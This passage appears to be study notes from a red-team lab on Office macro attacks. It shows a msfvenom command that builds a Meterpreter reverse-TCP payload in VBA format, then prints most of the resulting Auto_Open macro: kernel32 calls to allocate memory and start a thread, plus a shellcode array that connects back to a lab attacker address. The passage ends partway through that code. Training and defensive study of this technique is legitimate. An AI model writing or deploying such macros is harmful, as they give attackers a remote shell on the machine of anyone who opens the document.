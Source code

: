 Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create AutoOpen() and Document_open() functions before saving the document. Once the code works, now save the file and try to open it again.
![[Pasted image 20241106232048.png]]

It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.


## Reverse connection VBA
Now let's create an in-memory meterpreter payload using the Metasploit framework to receive a reverse shell. First, from the AttackBox, we create our meterpreter payload using msfvenom. We need to specify the Payload, LHOST, and LPORT, which match what is in the Metasploit framework. Note that we specify the payload as VBA to use it as a macro.


```shell-session
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```

```vb
#If Vba7 Then
	Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Qdt As Long, ByVal Agshqmdcx As Long, ByVal Irmqprmit As LongPtr, Hdmp As Long, ByVal Cxzb As Long, Efx As Long) As LongPtr
	Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Sirzav As Long, ByVal Ambe As Long, ByVal Ztzoh As Long, ByVal Gzpnh As Long) As LongPtr
	Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Qizpyxsf As LongPtr, ByRef Tjv As Any, ByVal Owo As Long) As LongPtr
#Else
	Private Declare Function CreateThread Lib "kernel32" (ByVal Qdt As Long, ByVal Agshqmdcx As Long, ByVal Irmqprmit As Long, Hdmp As Long, ByVal Cxzb As Long, Efx As Long) As Long
	Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Sirzav As Long, ByVal Ambe As Long, ByVal Ztzoh As Long, ByVal Gzpnh As Long) As Long
	Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Qizpyxsf As Long, ByRef Tjv As Any, ByVal Owo As Long) As Long
#EndIf

Sub Auto_Open()
	Dim Qdsso As Long, Euu As Variant, Hcca As Long
#If Vba7 Then
	Dim  Apebxtuq As LongPtr, Tocmavpch As LongPtr
#Else
	Dim  Apebxtuq As Long, Tocmavpch As Long
#EndIf
	Euu = Array(252,232,143,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20,49,255,15,183,74,38,139,114,40,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,139,82,16,139,66,60,87,1,208,139,64,120,133,192,116,76,1,208,80,139,72,24,139,88,32,1,211,133,201,116,60,73,139, _
52,139,49,255,1,214,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,10,10,59,150,104,2,0,1,188,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)

	Apebxtuq = VirtualAlloc(0, UBound(Euu), &H1000, &H40)
```